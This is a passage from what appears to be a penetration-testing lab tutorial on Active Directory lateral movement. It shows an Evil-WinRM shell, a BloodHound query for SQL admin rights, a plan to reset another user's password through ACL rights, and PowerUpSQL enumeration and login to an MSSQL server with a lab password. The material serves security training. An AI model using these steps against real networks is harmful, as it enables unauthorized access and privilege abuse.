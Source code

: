 ```shell-session

*Evil-WinRM* PS C:\Users\forend.INLANEFREIGHT\Documents> hostname
ACADEMY-EA-MS01
```

From here, we could dig around to plan our next move.

### SQL Server Admin

BloodHound, once again, is a great bet for finding this type of access via the `SQLAdmin` edge. We can check for `SQL Admin Rights` in the `Node Info` tab for a given user or use this custom Cypher query to search:

```cypher
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:SQLAdmin*1..]->(c:Computer) RETURN p2
```

Here we see one user, `damundsen` has `SQLAdmin` rights over the host `ACADEMY-EB-DB01`.

**Using a Custom Cypher Query to Check for SQL Admin Rights in BloodHound**

![image](https://academy.hackthebox.com/storage/modules/143/sqladmins\_bh.png)

We can use our ACL rights to authenticate with the `wley` user, change the password for the `damundsen` user and then authenticate with the target using a tool such as `PowerUpSQL`, which has a handy [command cheat sheet](https://github.com/NetSPI/PowerUpSQL/wiki/PowerUpSQL-Cheat-Sheet).

First, let's hunt for SQL server instances.

**Enumerating MSSQL Instances with PowerUpSQL**

```powershell-session
PS C:\htb> cd .\PowerUpSQL\
PS C:\htb>  Import-Module .\PowerUpSQL.ps1
PS C:\htb>  Get-SQLInstanceDomain

ComputerName     : ACADEMY-EA-DB01.INLANEFREIGHT.LOCAL
Instance         : ACADEMY-EA-DB01.INLANEFREIGHT.LOCAL,1433
DomainAccountSid : 1500000521000170152142291832437223174127203170152400
DomainAccount    : damundsen
DomainAccountCn  : Dana Amundsen
Service          : MSSQLSvc
Spn              : MSSQLSvc/ACADEMY-EA-DB01.INLANEFREIGHT.LOCAL:1433
LastLogon        : 4/6/2022 11:59 AM
```

We could then authenticate against the remote SQL server host and run custom queries or operating system commands.

```powershell-session
PS C:\htb>  Get-SQLQuery -Verbose -Instance "172.16.5.150,1433" -username "inlanefreight\damundsen" -password "SQL1234!" -query 'Select @@version'

VERBOSE: 172.16.5.150,1433 : Connection Success.

Column1
-------
Microsoft SQL Server 2017 (RTM) - 14.0.1000.169 (X64) ...
```


[ACADEMY-EA-DB01]: PS C:\Users\forend\Documents> hostname
[ACADEMY-EA-DB01]: PS C:\Users\forend\Documents> Exit-PSSession